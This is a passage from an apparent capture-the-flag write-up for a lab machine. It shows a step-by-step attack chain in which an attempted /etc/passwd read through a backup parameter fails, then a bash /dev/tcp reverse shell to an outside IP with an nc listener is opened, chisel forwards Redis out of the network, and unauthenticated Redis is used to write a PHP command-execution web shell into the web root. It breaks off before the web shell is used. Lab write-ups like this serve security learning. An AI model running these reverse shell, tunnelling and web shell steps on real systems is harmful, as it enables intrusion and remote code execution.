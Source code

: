 That snippet is a small **JavaScript function** (using jQuery’s `$.ajax`) that triggers a **database backup** on the server via an HTTP request.

Let’s try out the function:

```bash
http://localhost:80/8924d0549008565c554f8128cd11fda4/ajax.php?backup=/etc/passwd
```

We get a fatal error. Does not work. Maybe, the redis service we found on .2 is the database. From the note, the database container share the same web folder, therefore, if we can drop a php script in there, maybe we can get it to execute php code. First, let’s forward port 6379 from 172.19.0.2. We need another reverse shell, execute this in the original node-red shell:

```bash
#on attack
nc -lnvp 4446

#on node-red
bash -c "bash -i >& /dev/tcp/10.10.16.4/4446 0>&1"
```

On the new shell, let’s enable reverse (remote) port forwarding.

```bash
./chisel client 10.10.16.4:8005 R:6379:172.19.0.2:6379 &
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2014.png)

We get a connected response. Now, check if authentication is required on the redis service:

```bash
nc localhost 6379

echo "Hey no AUTH required!"
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2015.png)

We no don’t need. Now let’s create our payload in a variable, then set the configuration file in /var/www/html

```bash
flushall

set new '<?php system($_REQUEST["cmd"]); ?>'

config set dbfilename web.php

config set dir /var/www/html

save
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2016.png)

Now, if we visit our webshell:
